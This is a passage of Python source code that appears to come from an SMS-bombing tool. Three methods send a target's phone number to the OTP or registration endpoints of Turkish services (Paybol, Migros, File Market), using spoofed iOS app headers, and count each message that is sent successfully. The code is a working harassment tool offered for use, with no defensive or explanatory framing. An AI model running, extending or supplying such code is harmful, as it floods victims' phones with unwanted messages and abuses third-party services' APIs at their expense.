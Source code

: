 
    #paybol.com.tr
    def Paybol(self):
        try:
            url = "https://pyb-mobileapi.walletgate.io:443/v1/Account/RegisterPersonalAccountSendOtpSms"
            headers = {"Accept": "application/json", "Content-Type": "application/json", "User-Agent": "Paybol/1.2.1 (com.app.paybol; build:1; iOS 15.7.7) Alamofire/5.5.0", "Accept-Language": "en-TR;q=1.0, tr-TR;q=0.9", "Accept-Encoding": "gzip, deflate", "Connection": "close"}
            json={"phone_number": f"90{self.phone}"}
            r = requests.post(url, headers=headers, json=json, timeout=6)
            if r.json()["status"] == 0:
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> pyb-mobileapi.walletgate.io")
                self.adet += 1
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> pyb-mobileapi.walletgate.io")

        
    #migros.com.tr
    def Migros(self):
        try:
            url = "https://rest.migros.com.tr:443/sanalmarket/users/register/otp"
            headers = {"User-Agent": "Migros/1917 CFNetwork/1335.0.3.4 Darwin/21.6.0", "X-Device-Model": "iPhone 31 Plus", "X-Device-Type": "MOBILE", "X-Device-App-Screen": "OTHER", "X-Device-Language": "tr-TR", "X-Device-App-Version": "10.6.13", "X-Device-Current-Long": "", "X-Request-Identifier": "FBE85947-6E31-49AC-AC8C-317B21D79E80", "X-Device-Selected-Address-Lat": "", "X-Device-Platform-Version": "15.8.0", "X-Device-Current-Lat": "", "X-Device-Platform": "IOS", "X-Store-Ids": "", "X-Device-Longitude": "", "Accept-Language": "tr-TR,tr;q=0.9", "Accept": "*/*", "Content-Type": "application/json", "X-Device-Latitude": "", "Accept-Encoding": "gzip, deflate, br", "X-Device-Selected-Address-Long": "", "X-Device-Identifier": "31CAAD3F-5B53-315B-9C6D-31310D86826C"}
            json={"email": self.mail, "phoneNumber": self.phone}
            r = requests.post(url, headers=headers, json=json, timeout=6)
            if r.json()["successful"] == True:
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> rest.migros.com.tr")
                self.adet += 1
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> rest.migros.com.tr")


    #file.com.tr
    def File(self):
        try:
            url = "https://api.filemarket.com.tr:443/v1/otp/send"
            headers = {"Accept": "*/*", "Content-Type": "application/json", "User-Agent": "filemarket/2022060120013 CFNetwork/1335.0.3.2 Darwin/21.6.0", "X-Os": "IOS", "X-Version": "1.7", "Accept-Language": "en-US,en;q=0.9", "Accept-Encoding": "gzip, deflate"}
            json={"mobilePhoneNumber": f"90{self.phone}"}
            r = requests.post(url, headers=headers, json=json, timeout=6)
            if r.json()["responseType"] == "SUCCESS":
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> api.filemarket.com.tr")
                self.adet += 1
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> api.filemarket.com.tr")
